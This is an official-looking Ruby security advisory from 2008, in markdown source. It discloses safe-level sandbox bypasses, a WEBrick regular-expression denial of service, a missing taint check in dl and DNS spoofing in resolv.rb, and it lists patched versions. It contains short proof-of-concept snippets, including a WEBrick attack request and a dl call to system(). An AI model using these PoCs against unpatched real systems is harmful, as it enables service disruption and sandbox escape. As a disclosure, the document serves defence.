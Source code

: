 ```yaml
---
layout: news_post
title: "Multiple vulnerabilities in Ruby"
author: "Shugo Maeda"
lang: en
---
```


Multiple vulnerabilities have been discovered in Ruby. It\'s recommended
that you upgrade to the latest versions.

## Details

The following vulnerabilities have been discovered.

### Several vulnerabilities in safe level

Several vulnerabilities in safe level have been discovered.

* untrace\_var is permitted at safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME may be modified at safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Insecure methods may be called at safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

These vulnerabilities were reported by Keita Yamaguchi.

### DoS vulnerability in WEBrick

WEBrick::HTTP::DefaultFileHandler is faulty of exponential time taking
requests due to a backtracking regular expression in
WEBrick::HTTPUtils.split\_header\_value.

Exploitable server:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

The request likely won\'t finish in this universe.

This vulnerability was reported by Christian Neukirchen.

### Lack of taintness check in dl

dl doesn\'t check taintness, so it could allow attackers to call
dangerous functions.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

This vulnerability was reported by sheepman.

### DNS spoofing vulnerability in resolv.rb

resolv.rb allow remote attackers to spoof DNS answers. This risk can be
reduced by randomness of DNS transaction IDs and source ports, so
resolv.rb is fixed to randomize them.

* see also: [CVE-2008-1447][1]

This vulnerability was reported by Tanaka Akira.

## Vulnerable versions

1.8 series
: * 1\.8.5 and all prior versions
  * 1\.8.6-p286 and all prior versions
  * 1\.8.7-p71 and all prior versions

1.9 series
: * r18423 and all prior revisions

## Solution

1.8 series
: Please upgrade to 1.8.6-p287, or 1.8.7-p72.
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Please check out the latest version using Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Please note that a package that corrects this weakness may already be
available through your package management software.

## Credit

Credit to Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka
Akira for disclosing these problems to Ruby Security Team.

## Changes

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.
* 2008-08-11 11:23 +09:00 fixed the patchlevel of ruby 1.8. see [the
  release announcement of Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz 
[4]: {{ site.url }}/en/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/ 
